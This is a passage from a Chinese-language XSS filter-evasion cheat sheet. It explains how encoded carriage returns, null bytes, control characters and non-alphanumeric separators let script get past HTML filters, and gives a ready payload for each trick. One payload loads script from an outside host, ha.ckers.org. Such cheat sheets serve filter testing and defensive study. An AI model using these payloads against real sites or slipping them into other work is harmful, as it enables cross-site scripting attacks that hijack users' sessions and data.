 * * *

编码回车符去分开xss代码
-------------

注意：上面我编写的三个xss字符串比必须的字符串更长，原因是0可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符。正确的应该是一到七个字符。

```
<IMG SRC="jav&#x0D;ascript:alert('XSS');">

```

* * *

没有分割的javascript指令
-----------------

null字符也可以作为一个xss向量，但是不像上边那样。你需要直接注入它们利用一些工具例如Burp Proxy，或是使用 %00 在你的url字符串里。或者如果你想写你自己的注入工具你可以使用vim（^V^@ 会生成null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符173（软连字符）。但是null字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器用过变动像这个例子中的。

```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

```

* * *

图片元素中javascript之前的空格和元字符为xss
----------------------------

xss过滤拼配模式没有考虑单词"javascript:"中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32编码字符（十进制）中的任何字符。

```
<IMG SRC=" &#14;  javascript:alert('XSS');">

```

* * *

非字母数字字符xss
----------

Firefox html解析器设定一个非数字字母字符不是有效的在一个html关键字后面，因此这些字符会被视为空白符或是无效的token在html标签之后。这导致很多xss过滤器错误的认为html标签必须是被空白符隔断的。例如，`"<SCRIPT\s" != "<SCRIPT/XSS\s"`:

```
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

和上面的原理相同，我们继续扩大，Gecko渲染引擎允许字母、数字、html封装字符以外的任何字符位于事件处理器与等号之间。从而借此绕过xss过滤器。注意这也是适用于重音符如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

```

Yair Amit 提示我有一个小区别在 ie和Gecko 渲染引擎之间是他们仅允许一个一个斜杠在html标签和参数之间，在不使用空格的情况下。这可能是有用的在那些不允许输入空格的系统中。
